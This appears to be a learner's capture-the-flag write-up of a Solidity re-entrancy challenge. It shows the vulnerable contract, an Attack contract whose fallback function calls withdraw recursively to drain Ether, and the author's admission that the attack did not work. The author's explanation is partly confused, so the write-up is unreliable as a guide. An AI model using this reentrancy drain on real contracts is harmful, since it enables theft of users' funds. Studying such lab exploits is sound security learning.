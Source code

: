 # Re-entrancy

```javascript
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

Reentrant means that a function can be interrupted in the middle of its execution and then safely be called again ("re-entered") before its previous invocations complete execution.

Any interaction from a contract A with another contract B and any transfer of Ether hands over control to that contract B. 

This makes it possible for B to call back into A before this interaction is completed.

So if you deploy a contract as B then use a fallback function to make A hand over Ether again(It must be reentrant), that will turn this loop into recursive.

For `transfer()` and `send()`, there's limit 2300 wei for gas, exceed this limit, hand over will be cancel.

However, here's `call.value(_amount)()` doesn't set the limit, therefore it uses all it got as gas to make sure this transfer succeed.


```go
pragma solidity ^0.4.18;
 
contract Reentrance {
 
  mapping(address => uint) public balances;
 
  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }
 
  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
 
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
 
  function() public payable {}
}
contract Attack {

    address instance_address = 0xbbb055bd95b6e17d92b4d9c4a1a4696d69a0af1f;
    Reentrance target = Reentrance(instance_address);

    function Attack() payable{}
    // donate some ether to make withdraw accept
    function donate() public payable {
        target.donate.value(msg.value)(this);
    }    

    function get_balance() public view returns(uint) {
        return target.balanceOf(this);
    }

    function myBalance() public view returns(uint) {
        return address(this).balance;
    }

    function targetBalance() public view returns(uint) {
        return instance_address.balance;
    }
    // Make target start transfer
    function attack() public {
        target.withdraw(0.5 ether);
    }
    // Make it become recursive
    function () public payable {
        target.withdraw(0.5 ether);
    }
}
```
Well, I try hard but it just false my interaction, then sub my balances without sending any Ether.

Without fallback function, `withdraw()` will work pretty good though.

I think I need a hardcore skill to debug this problem another day then.
